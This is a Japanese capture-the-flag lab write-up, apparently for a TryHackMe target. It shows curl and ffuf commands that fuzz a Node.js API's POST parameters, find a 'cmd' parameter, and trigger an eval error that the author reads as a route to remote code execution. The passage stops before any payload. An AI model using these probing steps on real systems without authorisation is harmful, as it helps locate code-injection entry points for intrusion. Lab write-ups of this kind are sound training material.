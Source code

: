- ポストで送信できるということで、何かパラメータを持っているはずなので、ffufを使ってパラメータをふぁじんぐ
    - 準備　通常のレスポンスのサイズを図る
```
# curl -X POST http://thm_target/api/items|wc -c
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    45  100    45    0     0     66      0 --:--:-- --:--:-- --:--:--    66
45

```
- 通常サイズとは異なるサイズのレスポンスがないかを確認 cmdがヒット
```
└─# ffuf -X POST -u http://thm_target/api/items?FUZZ=shunaroo -w /usr/share/wordlists/dirb/common.txt -mc all -fs 45

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : POST
 :: URL              : http://thm_target/api/items?FUZZ=shunaroo
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response size: 45
________________________________________________

cmd                     [Status: 500, Size: 1085, Words: 55, Lines: 11]
[WARN] Caught keyboard interrupt (Ctrl-C)

```

- curlでなげると evalのエラーが出るので、ここでRCEできそう
```
─# curl -X POST http://thm_target/api/items?cmd=shunaroo
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>ReferenceError: shunaroo is not defined<br> &nbsp; &nbsp;at eval (eval at router.post (/var/web/routes/api.js:25:60), &lt;anonymous&gt;:1:1)<br> &nbsp; &nbsp;at router.post (/var/web/routes/api.js:25:60)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/var/web/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /var/web/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at Function.process_params (/var/web/node_modules/express/lib/router/index.js:335:12)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/index.js:275:10)<br> &nbsp; &nbsp;at Function.handle (/var/web/node_modules/express/lib/router/index.js:174:3)</pre>
</body>
</html>

```
